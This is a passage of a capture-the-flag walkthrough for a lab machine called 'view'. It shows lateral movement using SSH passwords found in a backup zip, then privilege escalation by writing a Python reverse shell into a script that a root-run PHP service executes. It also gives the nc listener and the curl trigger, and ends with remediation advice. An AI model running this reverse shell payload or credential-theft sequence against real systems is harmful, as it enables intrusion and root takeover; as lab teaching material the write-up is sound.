-rw-r--r-- 1 scarpine scarpine  553 Oct 26  2019 note.txt
```
Then aside from the note, there is also the `aView.py` file, but I can not read it at least I have the `max` or `jenny` shell.
When I check out `jenny`'s home:
```shell
www-data@view:/home/jenny$ ls -la
total 24
-rw-r--r-- 1 jenny jenny  845 Oct 25  2019 dsktp_backup.zip
```
Then I see the `dsktp_backup.zip` file, and I can read it.
When I copy it to the `dev` webroot:
```shell
www-data@view:/home/jenny$ cp dsktp_backup.zip /var/www/html/dev
```
Then I can download it with the `wget` command:
```shell
$ wget http://192.168.2.30/dev/dsktp_backup.zip
```
When I check the files it contains:
```shell
$ unzip -l dsktp_backup.zip
Archive:  dsktp_backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      104  2019-10-20 14:58   passswords.txt
      669  2019-10-25 19:42   todo.txt
---------                     -------
      773                     2 files
```
Then I can tell the email `Stop_Storing_Passwords` was addressed to `jenny`. When I `unzip` the file:
```shell
$ unzip dsktp_backup.zip
```
Then I can read the files:



And I find jenny's ssh password `ThisisAreallYLONGPAssw0rdWHY!!!!`. When I use the `ssh` command:
```shell
$ sshpass -p "ThisisAreallYLONGPAssw0rdWHY!!!!" ssh jenny@192.168.2.30
```
Then it fails, and I check again the file `passwords.txt`, and I guess it was a tricky password, and the real password is at the end of the file `!!!sfbay!!!`. When I use the `ssh` command:
```shell
$ sshpass -p "!!!sfbay!!!" ssh jenny@192.168.2.30
```
Then it works:



## Privilege escalation

When I read the `aView.py` file with the `jenny` user:
```shell
jenny@view:/home/max$ cat aView.py
#!/usr/bin/python
#
# executed from php app add final wrapper/script here
print "waiting on engineers to tweak final code"
```
Then I see that even though it says `Python` it seems to be running from PHP. When I review the current process with port `8191`:
```shell
jenny@view:/home/max$ ps aux | grep 8191
root 1583 0.0 1.8 273120 19020 ? S 10:18 0:05 php -S 0.0.0.0:8191
```
Then I can see that the service runs with the root user.
When I see the source of `/7f98ca7ba1484c66bf09627f931448053ae6b55a/`, then I find a form on lines 36 to 38:
```html
36 form action="7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php">
37  <input type="submit" class="button button2" value="Execute">
38 </form>
```
And I can see that it makes a `GET` request to `run.php`, and at this point I was stuck, but I wanted to avoid using the `execute` button because of all the clues, and the note above says that with that, Max could execute his `plan`, and in zorin's vision says that the plan is to `destroy`, and the theme is that I should avoid that `plan`, but I do not what else to do, then I decide to see the behavior of the `execute` button. When I click on it, then I get the error:
```
The requested resource /7f98ca7ba1484c66bf09627f931448053ae6b55a/
7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php? was not found
on this server.
```
But I notice that the hash appears twice. When I access `/7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php`, then I see:



But ignoring the gif, the text is the same as found in `aView.py`, And maybe `run.php` call that file, and the user `jenny` can modify that file. When I add another print to see the behavior:
```shell
jenny@view:/home/max$ echo 'print "can I exploit you?"' >> aView.py
```
And I access `/7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php`, then I see that the string 'can I exploit you?' appears on the page. When I look the [Reverse Shell Generator](https://www.revshells.com/) for a payload for `Python2`, and I write it in the `aView.py` file:
```python
...SNIPPED...
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.2.31",1235))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("bash")
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I make the `GET` request to the `/<hash>/run.php`:
```shell
$ curl "http://192.168.2.30:8191/
> 7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php"
```
Then I get the root shell:



And this machine has a flag with a script file:



And it opens an `HTTP` server on TCP port `8007`, and that is the root flag:



## Remediation
Given the emails found with a public user, and that they contain user credentials, then they should remove sensitive information from webroot, and with the `CVE-2019-15813` from `Sentrifugo`, then disable insecure features, and avoid choosing apps that are no longer being maintained, and define secure privileges for home directories, and avoid exposing services running with root user.
